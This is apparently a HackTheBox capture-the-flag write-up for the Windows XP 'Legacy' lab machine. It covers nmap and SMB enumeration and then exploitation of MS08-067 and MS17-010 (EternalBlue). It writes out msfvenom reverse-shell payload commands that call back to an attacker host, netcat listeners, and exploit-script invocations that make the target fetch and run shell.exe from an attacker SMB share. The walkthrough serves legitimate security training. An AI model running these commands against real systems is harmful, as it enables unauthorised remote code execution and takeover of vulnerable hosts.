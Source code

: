 # <a href='https://www.hackthebox.eu/home/machines/profile/2' target="blank">HackTheBox Legacy</a>

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

![](images/1.png)

## Information Gathering

### Openning Services

```
┌──(Hades㉿10.10.14.5)-[0.5:14.1]~/scripting
└─$ sudo ./enum/all.sh 10.10.10.4
[sudo] password for kali: 

### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.4 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 139,445,3389

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.4 -p139,445,3389
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 23:38 EDT
Nmap scan report for 10.10.10.4
Host is up (0.25s latency).

PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h16m00s, deviation: 2h07m16s, median: -5h46m00s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:c4:3d (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-04-01T03:52:25+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.23 seconds
```

### Server Message Block

Enum with `smbmap` and `smbclient`, but cannot see value info.

```
### SMB Enumeration (445) ############################
smbmap -H 10.10.10.4                                                                                                                                                        
[+] IP: 10.10.10.4:445  Name: 10.10.10.4                                        
smbclient -L 10.10.10.4         
protocol negotiation failed: NT_STATUS_IO_TIMEOUT
```

Using `nmap` to scan smb vulnerability:

```
┌──(Hades㉿10.10.14.5)-[0.6:18.5]~/scripting
└─$ nmap -p 139,445 --script smb-vul* 10.10.10.4 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 23:43 EDT
Nmap scan report for 10.10.10.4
Host is up (0.25s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 36.31 seconds
```

## Foothold

### smb-vuln-ms08-067

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy)

<a href='https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py' target="blank">Microsoft Windows Server 2000/2003 - Code Execution (MS08-067)</a>

In the poc, I neet to `REPLACE THIS SHELLCODE with shellcode generated for your use`.

The bad chars `"\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"`

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

Create a listener in Kali machine.

``` bash
sudo nc -nvlp 443
```
Convert poc to python3

```
2to3 ms08-067.py
```

Get reverse shell

```bash
python3 ms08-067.py 10.10.10.4 6 445 > /dev/null
```

![](images/2.png)

Create smb server in Kali Machine to check privilege.

```
sudo smbserver.py public /usr/share/windows-resources/binaries/ > /dev/null
```

```
\\10.10.14.5\public\whoami.exe
```

### smb-vuln-ms17-010

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy)

<a href='https://github.com/helviojunior/MS17-010' target="blank">Microsoft Security Bulletin MS17-010 (EternalBlue/MS17-010)</a>

Generate reverse shell file `shell.exe` in the same payload's folder using `msfvenom`.

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe
```

Create a listener in Kali machine.

``` bash
sudo nc -nvlp 443
```

Get reverse shell

```bash
python send_and_execute.py 10.10.10.4 shell.exe > /dev/null
```

![](images/5.png)

Run cmd in poc file

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy)

Get reverse shell

```
sudo smbserver.py public /home/kali/walkthrough/hackthebox/legacy > /dev/null
```

```
python cmd.py 10.10.10.4 '\\10.10.14.5\public\shell.exe' > /dev/null
```

![](images/6.png)

## Reference

[worawit/MS17-010](https://github.com/worawit/MS17-010)

<a href='https://0xdf.gitlab.io/2019/02/21/htb-legacy.html' target="blank">HTB: Legacy of 0xdf hacks stuff</a>

<a href='https://pycryptodome.readthedocs.io/en/latest/src/installation.html' target="blank">Install PyCrypto library</a>